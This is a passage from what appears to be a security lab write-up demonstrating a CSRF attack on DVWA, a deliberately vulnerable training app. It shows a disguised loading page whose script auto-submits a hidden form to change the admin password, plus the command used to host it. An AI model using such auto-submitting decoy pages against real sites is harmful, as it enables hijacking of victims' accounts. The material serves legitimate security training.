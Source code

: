 ```html
    ];
    
    let messageIndex = 0;
    
    // Update status message every second
    let messageInterval = setInterval(() => {
      if (messageIndex < messages.length - 1) {
        messageIndex++;
        statusElement.textContent = messages[messageIndex];
      } else {
        clearInterval(messageInterval);
      }
    }, 1000);
    
    // Auto-submit the form after 2 seconds
    setTimeout(() => {
      document.getElementById("csrf-form").submit();
    }, 2000);
  </script>
</body>
</html>
```

This page looks innocent to users but secretly contains a hidden form that automatically submits after 2 seconds. The form attempts to change the admin password to "hacked123".

## Step 3: Executing the Attack

I created a simple web server to host my malicious page:
```
python -m http.server 5050
```

In a real attack scenario, the attacker would trick the victim into visiting the attacker page while they're logged into DVWA. For testing purposes, I visited the page myself while logged in as admin on DVWA.

When the victim (me in this case) visits `192.168.34.133:5050/stealth_csrf.html`, they see a harmless loading page with a spinner and text that says "Please don't close this window while we complete the setup."
